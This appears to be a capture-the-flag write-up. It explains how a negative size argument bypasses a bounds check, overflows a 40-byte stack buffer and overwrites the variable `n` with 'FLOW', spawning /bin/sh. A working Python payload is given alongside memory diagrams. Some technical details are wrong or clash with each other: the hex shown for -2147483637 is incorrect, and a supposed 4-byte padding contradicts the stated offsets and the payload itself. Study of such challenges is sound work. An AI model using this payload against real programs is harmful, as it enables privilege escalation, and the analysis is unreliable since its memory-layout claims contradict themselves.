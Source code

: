 # How n == 0x574f4c46 Becomes True - The Variable Self-Exploitation

## The Core Question
How does the same variable `n` that starts as `-2147483637` suddenly become `0x574f4c46` to trigger the shell?

## The Answer: Variable Overwrite via Buffer Overflow

### Memory Layout Analysis
```c
int n;           // Located at ESP + 0x3C (stack offset)
char buffer[40]; // Located at ESP + 0x14 (stack offset) 
```

**Key Distance**: From `buffer` start to `n` variable = **44 bytes**
- Buffer size: 40 bytes
- Stack padding: 4 bytes  
- Then: `n` variable location

### The Attack Sequence

#### Step 1: Integer Overflow Setup
```c
n = atoi("-2147483637");  // n = -2147483637
if (!(n <= 9))           // -2147483637 <= 9 → TRUE (passes check)
```

#### Step 2: Overflow Calculation  
```c
memcpy(buffer, av[2], n * 4);  // -2147483637 * 4 = 44 bytes (overflow!)
```

#### Step 3: The Critical Overwrite
```bash
# Payload: $(python -c 'print "A" * 40 + "FLOW"')
# Memory write pattern:

Byte 0-39:  "AAAAAAAAAA...A"  → Fills buffer[40]
Byte 40-43: "FLOW"            → Overwrites n variable!
```

#### Step 4: Variable Transformation
```c
// Before memcpy:
n = -2147483637 (0x80000D3B)

// After memcpy (the "FLOW" overwrites n):
n = 0x574F4C46  // "FLOW" in little-endian format!

// ASCII to Hex conversion:
'F' = 0x46
'L' = 0x4C
'O' = 0x4F  
'W' = 0x57
// Little-endian: 0x574F4C46
```

## Visual Memory Layout During Attack

```
Stack Memory Layout:

Higher Memory Addresses
┌─────────────────────────────────────┐
│ Other stack data                    │
├─────────────────────────────────────┤ ← ESP + 0x3C
│ n variable                          │ ← TARGET LOCATION
│ Before: 0x80000D3B (-2147483637)   │
│ After:  0x574F4C46 ("FLOW")        │ ← OVERWRITTEN!
├─────────────────────────────────────┤ ← ESP + 0x38
│ Stack padding (4 bytes)             │
├─────────────────────────────────────┤ ← ESP + 0x14
│ buffer[40]                          │
│ Filled with: "AAAAAAAAAA...A"      │
│ (40 bytes of 'A' characters)        │
└─────────────────────────────────────┘ ← ESP
Lower Memory Addresses

memcpy() writes 44 bytes:
Bytes 0-39:  Fill buffer with 'A's
Bytes 40-43: Overflow into n variable with "FLOW"
```

## The Exploitation Flow

### 1. Original State
```c
n = -2147483637;  // Original value from atoi()
```

### 2. Buffer Overflow Execution  
```c
memcpy(buffer, "AAAA...AFLOW", 44);
//           ↑                ↑
//     40 A's (fills buffer)  "FLOW" (overwrites n)
```

### 3. Variable Overwrite Result
```c
// The last 4 bytes "FLOW" land exactly on n variable:
n = 0x574F4C46;  // n is now the magic value!
```

### 4. Condition Check Success
```c
if (n == 0x574f4c46)  // TRUE! Variable was overwritten
    execl("/bin/sh", "sh", NULL);  // Shell spawned!
```

## The Brilliant Self-Exploitation

This attack is particularly elegant because:

1. **Same Variable, Dual Purpose**: `n` serves as both:
   - **Size controller** (for memcpy overflow calculation)
   - **Target value** (gets overwritten to trigger shell)

2. **Perfect Distance**: The buffer-to-variable distance (44 bytes) exactly matches our overflow calculation

3. **Magic Value Encoding**: "FLOW" naturally encodes to the required hex value `0x574F4C46`

## Why This Works

### Integer Overflow Mathematics
```c
// 32-bit signed integer wraparound:
-2147483637 * 4 = -8589934548
// Truncated to 32-bit: 44 (exact distance needed!)
```

### Memory Alignment
```c
// Compiler stack layout puts n exactly 44 bytes after buffer start
// This is NOT coincidence - it's how the challenge was designed!
```

### Little-Endian Encoding
```c
// x86 stores multi-byte integers in little-endian format:
"FLOW" → [F][L][O][W] → [0x46][0x4C][0x4F][0x57] → 0x574F4C46
```

## The Complete Picture

The variable `n` literally **exploits itself**:

1. Starts as negative number to bypass validation
2. Creates large copy size via integer overflow  
3. Gets overwritten by its own overflow attack
4. Becomes the magic value that triggers the shell
5. The same variable that caused the attack becomes the attack's payload!

This is a masterclass in **variable self-exploitation** - where the attack vector and the target are the same memory location. The elegance lies in using the variable's dual role to achieve both the overflow capability and the final trigger condition.

## Summary

**Question**: How does `n == 0x574f4c46` become true?

**Answer**: The buffer overflow caused by `n`'s value literally overwrites `n` itself with "FLOW", transforming it into `0x574f4c46`. The variable becomes both the weapon and the target of its own attack.